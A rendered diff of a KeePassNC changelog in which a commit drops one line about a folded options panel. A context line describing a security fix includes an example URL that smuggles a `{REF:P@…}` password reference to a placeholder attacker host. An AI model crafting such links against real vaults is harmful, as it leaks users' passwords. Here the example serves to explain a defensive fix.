

Before and after one commit to StudioCuda/KeePassNC, a Markdown page: nextcloud-app/keepassnc/CHANGELOG.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Drop the folded-options line from the 0.16.0 changelog
Co-Authored-By: Claude Sonnet 5.5 <noreply@anthropic.com>

```diff
--- a/nextcloud-app/keepassnc/CHANGELOG.md
+++ b/nextcloud-app/keepassnc/CHANGELOG.md
@@ -10,7 +10,6 @@ Format based on [Keep a Changelog](https://keepachangelog.com/en/1.1.0/).
 ### Changed
 - The dice icon (password generator) has fuller pips, so they no longer look so thin next to the other toolbar icons.
 - The key icon (copy password on hover in the entry list) now sits centred in its button, and the hover icons are a touch larger.
-- "Key file & offline options" on the open-vault screen now always starts folded, even with the offline copy switched on. One click away, a lot less card.
 - The URL field no longer hands out other entries' secrets: `{REF:P@…}` and references to protected fields stay as they are when the URL is shown, opened (click, Ctrl+Shift+U) or copied. Otherwise an imported or merged entry with a URL like `https://evil.example/?p={REF:P@T:}` would hand you a link with another entry's password in it. The entry's own `{PASSWORD}` and protected fields still go in when you open or copy the URL (old-school `?pass=…` logins keep working), but the shown URL and the link keep the placeholder, so the password isn't on screen. Everything else (`{USERNAME}`, `{S:Host}`, `{REF:U@…}` …) resolves as before, and so does the password field.
 
 ### Fixed
```
